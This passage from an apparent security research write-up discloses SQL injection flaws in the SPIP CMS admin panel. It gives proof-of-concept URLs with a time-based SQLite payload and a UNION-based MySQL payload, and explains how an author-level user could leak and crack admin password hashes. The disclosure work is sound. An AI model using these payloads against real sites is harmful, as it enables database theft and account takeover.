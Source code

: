 
### SQL injection on where

```html
http://lokal/ecrire/?exec=accueil&where=SQLI_HERE
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/sqli_where.jpg" alt="sqli_where">


### SQL injection on lier_trad

```html
http://localhost:8000/ecrire/?exec=article_edit&new=oui&id_rubrique=1&lier_trad=%27
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/sqli_lier_trad.jpg" alt="sqli_lier_trad">


Two backends are supported by Spip: MySQL and SQLite. 

Simple sleep in SQLite: 
```html
http://lokal/ecrire/?exec=article_edit&lier_trad=1%2BAND%2B10%3DLIKE%280x41%2CUPPER%28HEX%28RANDOMBLOB%28500000000%2F2%29%29%29%29--+
http://lokal/ecrire/?exec=article_edit&lier_trad=1+AND+10=LIKE(0x41,UPPER(HEX(RANDOMBLOB(500000000/2))))-- 
```

Union based in MySQL:
```html
http://lokal/ecrire/?exec=article_edit&lier_trad=1 AND 1=2 union all select 1,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25;--
http://lokal/ecrire/?exec=article_edit&lier_trad=1+AND+1%3D2%20union%20all%20select%201,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25;--
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/sqli_lier_trad_poc.jpg" alt="sqli_lier_trad_poc">


Both of these SQL injections can be reached as a webmaster, an administrator, or even an author. Only the visitor role is restricted from accessing the /ecrire panel). This implies that an author can leak password hashes from every user, including admin and webmaster, crack them offline, and takeover highly privileged accounts, and thus either get code execution, or affect other user's. 


## Remote Code Execution

TL;DR(RCE): Gain code execution on the targeted machine. Aka "your computer is now mine". Once this initial foothold is in place, the privilege escalation game begins! Exploit the way up, from "a low privileged user" to the highest privileges on the machine. 

During the third run on Spip (improving Sulfateuse day after day), two new XSS were found. 
The first one is internet-explorer specific as it doesn’t url-encode bad chars by default. Yuck. 

You can check how various characters are encoded here: [https://www.worldtimzone.com/res/encode/](https://www.worldtimzone.com/res/encode/)

